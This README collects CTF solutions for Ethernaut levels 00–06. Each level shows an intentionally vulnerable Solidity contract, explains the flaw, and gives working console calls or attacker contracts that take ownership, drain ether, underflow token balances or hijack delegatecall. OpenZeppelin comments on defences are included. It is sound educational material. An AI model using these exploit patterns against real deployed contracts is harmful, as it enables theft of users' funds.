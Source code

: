 # Ethernaut

My [Ethernaut](https://ethernaut.openzeppelin.com/) CTF Solutions.

## Table of Contents

<details>
<summary>
<a href="#00-hello-ethernaut">00. Hello Ethernaut</a>
</summary>
<ol>
    <li><a href="./contracts/00-hello-ethernaut/">Contracts</a></li>
    <li><a href="./scripts/00-hello-ethernaut.ts">Script</a></li>
</ol>
</details>

<details>
<summary>
<a href="#01-fallback">01. Fallback</a>
</summary>
<ol>
    <li><a href="./contracts/01-fallback/">Contracts</a></li>
    <li><a href="./scripts/01-fallback.ts">Script</a></li>
</ol>
</details>

<details>
<summary>
<a href="#02-fallout">02. Fallout</a>
</summary>
<ol>
    <li><a href="./contracts/02-fallout/">Contracts</a></li>
    <li><a href="./scripts/02-fallout.ts">Script</a></li>
</ol>
</details>

<details>
<summary>
<a href="#03-coin-flip">03. Coin Flip</a>
</summary>
<ol>
    <li><a href="./contracts/03-coin-flip/">Contracts</a></li>
    <li><a href="./scripts/03-coin-flip.ts">Script</a></li>
</ol>
</details>

<details>
<summary>
<a href="#04-telephone">04. Telephone</a>
</summary>
<ol>
    <li><a href="./contracts/04-telephone/">Contracts</a></li>
    <li><a href="./scripts/04-telephone.ts">Script</a></li>
</ol>
</details>

<details>
<summary>
<a href="#05-token">05. Token</a>
</summary>
<ol>
    <li><a href="./contracts/05-token/">Contracts</a></li>
    <li><a href="./scripts/05-token.ts">Script</a></li>
</ol>
</details>

<details>
<summary>
<a href="#06-delegation">06. Delegation</a>
</summary>
<ol>
    <li><a href="./contracts/06-delegation/">Contracts</a></li>
    <li><a href="./scripts/06-delegation.ts">Script</a></li>
</ol>
</details>

## 00. Hello Ethernaut

This is a warm-up task. Call `await contract.info()` in the console and follow the instructions.

<details>
  <summary>Browser Console Solution</summary>

```javascript
// 1
await contract.info();
// 'You will find what you need in info1().'

// 2
await contract.info1();
// 'Try info2(), but with "hello" as a parameter.'

// 3
await contract.info2('hello');
// 'The property infoNum holds the number of the next info method to call.'

// 4
await contract.infoNum();
// {
//  ...
//  words: [42],
// };

// 5
await contract.info42();
// 'theMethodName is the name of the next method.'

// 6
await contract.theMethodName();
// 'The method name is method7123949.'

// 7
await contract.method7123949();
// 'If you know the password, submit it to authenticate().'

// 8
await contract.password();
// 'ethernaut0'

// 9
await contract.authenticate('ethernaut0');
// tx receipt...
```

Then click the "Submit instance" button.

Congratulations! :wink: Let's move on to the next challenge! :running:

</details>

<details>
  <summary>Browser Console Solution For Cheaters</summary>

```javascript
await contract.authenticate('ethernaut0');
// tx receipt...
```

Then click the "Submit instance" button.

Congratulations! :wink: Let's cheat the next challenge! :running:

</details>

<a href='./contracts/00-hello-ethernaut/'>Contracts</a> | <a href='./scripts/00-hello-ethernaut.ts'>Script</a>

## 01. Fallback

### Challenge

Look carefully at the contract's code below.

You will beat this level if

1. you claim ownership of the contract
2. you reduce its balance to 0

Things that might help

- How to send ether when interacting with an ABI
- How to send ether outside of the ABI
- Converting to and from wei/ether units (see help() command)
- Fallback methods

<details>
  <summary>Instance</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

</details>

### Solution

<details>
  <summary>Description</summary>

In order to pass the challenge, we need to become the owner of the contract and withdraw the entire balance from the contract.

In the instance contract, the owner is set in 3 places:

1. Constructor. When deploying a contract.
2. Method `contribute`. To do this, we need to transfer at least 1 wei (but less than 0.001 Ether).
3. Method `receive`. This method is called every time we send Ether to a contract address without calling any contract function.

Understanding how `receive` works is the key to hacking this smart contract.

> You can read about how the `receive` function works in the [official docs](https://docs.soliditylang.org/en/v0.8.24/contracts.html#receive-ether-function), [stackexchange](https://ethereum.stackexchange.com/questions/81994/what-is-the-receive-keyword-in-solidity).

The `receive` function checks the user has sent some non-zero amount of ether (at least 1 wei) and has already contributed some amount of ether (less than 0.001 ether) by calling the `contribute` method.

The hacking algorithm is as follows:

1. We call `contribute` and send 1 wei along with the function call.
2. We send to the contract address 1 wei. We are now the owner of the contract.
3. Call the `withdraw` function.

</details>

<details>
  <summary>Browser Console Solution</summary>

```javascript
// 1
await contract.contribute({ value: _ethers.utils.parseUnits('1', 'wei') });

// 2
await contract.sendTransaction({
  to: contract.address,
  value: _ethers.utils.parseUnits('1', 'wei'),
});

// 3
await contract.withdraw();
```

Then click the "Submit instance" button.

Congratulations! :wink: Let's move on to the next challenge! :running:

</details>

<a href='./contracts/01-fallback/'>Contracts</a> | <a href='./scripts/01-fallback.ts'>Script</a>

## 02. Fallout

### Challenge

Claim ownership of the contract below to complete this level.

Things that might help:

- Solidity Remix IDE

<details>
  <summary>Instance</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Fallout {

  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

</details>

### Solution

<details>
  <summary>Description</summary>

Since Solidity v0.4.23, constructors are now specified using the `constructor` keyword.
Before this version, the constructor was a function whose name was the same as the name of the contract.
Since Solidity [v0.5.0](https://docs.soliditylang.org/en/v0.8.24/050-breaking-changes.html#constructors) constructors must be defined using the `constructor` keyword.

The only place in the contract where the owner is set is in the `Fal1out` function. According to the creator of the contract, this should have been a constructor that would work once and could not be called again. In this case, hacking would not have been possible (for solidity version less than v0.5.0). However, the author made a typo in the name of the constructor and instead of `Fallout` it turned out to be `Fal1out`. And now we can easily withdraw money from the contract.

1. Call the `Fal1out` function. We become the owner of the contract.
2. Call the `collectAllocations` function. We get all the money from the contract.

</details>

<details>
  <summary>Browser Console Solution</summary>

```javascript
// 1
await contract.Fal1out({ value: _ethers.utils.parseUnits('1', 'wei') });

// 2
await contract.collectAllocations();
```

Then click the "Submit instance" button.

Congratulations! :wink: Let's move on to the next challenge! :running:

</details>

<details>
  <summary>Real World Example Described By OpenZeppelin</summary>

That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?

Well... Not quite.

The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:

```solidity
contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
}
```

This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.

</details>

<a href='./contracts/02-fallout/'>Contracts</a> | <a href='./scripts/02-fallout.ts'>Script</a>

## 03. Coin Flip

### Challenge

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

<details>
  <summary>Instance</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

</details>

### Solution

<details>
  <summary>Description</summary>

This is a challenge to understand how randomness works on Ethereum. Since this is a deterministic environment, it is not possible to create unpredictable randomness. If you need to use random in your protocol, then it is better to use oracles ([Chainlink VRF](https://docs.chain.link/vrf)).

In order to complete the challenge, we need to guess which side will fall out 10 times in a row.
Since this is based on the hash of the previous block, it is possible to calculate in advance which side will land.
To do this, we will write an attack contract and run it in [Remix Online](https://remix.ethereum.org/) and make 10 calls to the attack functions. Thus, we get the same `blockValue` as the instance, since we launch them in one transaction.

</details>

<details>
  <summary>Attack Contract</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import './CoinFlip.sol';

contract CoinFlipAttack {
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip _coinFlip;

  constructor(CoinFlip coinFlip) {
    _coinFlip = coinFlip;
  }

  function attack() public {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
    _coinFlip.flip(side);
  }
}

```

</details>

<details>
  <summary>Comments From OpenZeppelin</summary>

Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/vrf/v2/subscription/examples/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through [BTC Relay](http://btcrelay.org/), [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).

</details>

<a href='./contracts/03-coin-flip/'>Contracts</a> | <a href='./scripts/03-coin-flip.ts'>Script</a>

## 04. Telephone

### Challenge

Claim ownership of the contract below to complete this level.

<details>
  <summary>Instance</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

</details>

### Solution

<details>
  <summary>Description</summary>

`tx.origin != msg.sender` gives the right to change the overner. This check will return `true` only if the CA (contract address) calls this function and not EOA (externally owned address).

To do this, we will write an attacker contract and run it in [Remix Online](https://remix.ethereum.org/).

</details>

<details>
  <summary>Attacker Contract</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import './Telephone.sol';

contract TelephoneAttacker {
  Telephone private _telephone;

  constructor(Telephone telephone) {
    _telephone = telephone;
  }

  function changeOwner() public {
    _telephone.changeOwner(msg.sender);
  }
}

```

</details>

<details>
  <summary>Comments From OpenZeppelin</summary>

While this example may be simple, confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/).

An example of a possible attack is outlined below.

1. Use `tx.origin` to determine whose tokens to transfer, e.g.

```solidity
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
```

2. Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.

```solidity
function () payable {
  token.transfer(attackerAddress, 10000);
}
```

3. In this scenario, `tx.origin` will be the victim's address (while `msg.sender` will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.

</details>

<a href='./contracts/04-telephone/'>Contracts</a> | <a href='./scripts/04-telephone.ts'>Script</a>

## 05. Token

### Challenge

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

Things that might help:

- What is an odometer?

<details>
  <summary>Instance</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

</details>

### Solution

<details>
  <summary>Description</summary>

Solidity versions below 0.8.0 do not have overflow/underflow checking. Therefore, if we subtract 1 from the minimum value, we get the maximum possible value. We can use this to get more tokens than we are entitled to.

To protect yourself from this, in compiler versions below 0.8.0 we can use the [SafeMath](https://docs.openzeppelin.com/contracts/2.x/api/math#SafeMath) library from OpenZeppelin.

So to get a large number of tokens we do the following:

1. We get our current balance of tokens.
2. We add 1 to it to cause underflow. Thanks to this, we will pass the `require(balances[msg.sender] - _value >= 0);` check and get a large number of tokens here `balances[msg.sender] -= _value;`
3. The challenge is completed.
</details>

<details>
  <summary>Browser Console Solution</summary>

```javascript
// 1
const initialBalance = await contract.balanceOf(player);

// 2
const amountToTransfer = initialBalance + 1;

// 3
await contract.transfer(_ethers.constants.AddressZero, amountToTransfer);
```

Then click the "Submit instance" button.

Congratulations! :wink: Let's move on to the next challenge! :running:

</details>

<details>
  <summary>Comments From OpenZeppelin</summary>

Overflows are very common in solidity and must be checked for with control statements such as:

```solidity
if(a + c > a) {
  a = a + c;
}
```

An easier alternative is to use OpenZeppelin's [SafeMath](https://docs.openzeppelin.com/contracts/2.x/api/math#SafeMath) library that automatically checks for overflows in all the mathematical operators. The resulting code looks like this:

`a = a.add(c);`

If there is an overflow, the code will revert.

</details>

<a href='./contracts/05-token/'>Contracts</a> | <a href='./scripts/05-token.ts'>Script</a>

## 06. Delegation

### Challenge

The goal of this level is for you to claim ownership of the instance you are given.

Things that might help:

- Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
- Fallback methods
- Method ids

<details>
  <summary>Instance</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

</details>

### Solution

<details>
  <summary>Description</summary>

The `Delegation` contract has a `fallback` function that calls the `Delegate` contract function using `delegatecall`.

The `fallback` function fires when we try to call a non-existent contract function.

`delegatecall` is a low-level call that executes the code of the called function (any function from `Delegate`) within the framework of the calling smart contract (`Delegation`). We can say that the code is copied from the remote smart contract to the calling smart contract. Thus, when executing this code, the storage of the called smart contract (`Delegation`) is used.

Smart contract storage consists of 32-byte slots. In `Delegation` the `owner` is specified in the first slot and in `Delegate` the `owner` is specified in the first slot.

As we can see, in the `Delegate` contract the owner is set in the `pwn` function. If we call this function within the `Delegation` contract, we can set the owner of the `Delegation` contract.

In order for the `fallback` method to work, we need to pass `data` to call the `pwn()` function.

Here `data` represents the function signature. Function signature - 4 bytes from the hash of the function name and parameter types (`pwn()` = `0xdd365b8b`).

</details>

<details>
  <summary>Browser Console Solution</summary>

```javascript
// 1
const methodId = _ethers.utils.id('pwn()').substring(0, 10);

// 2
await sendTransaction({ from: player, to: contract.address, data: methodId });
```

Then click the "Submit instance" button.

Congratulations! :wink: Let's move on to the next challenge! :running:

</details>

<details>
  <summary>Comments From OpenZeppelin</summary>

Usage of `delegatecall` is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The `delegatecall` function is a powerful feature, but a dangerous one, and must be used with extreme care.

Please refer to the [The Parity Wallet Hack Explained](https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7) article for an accurate explanation of how this idea was used to steal 30M USD.

</details>

<a href='./contracts/06-delegation/'>Contracts</a> | <a href='./scripts/06-delegation.ts'>Script</a>
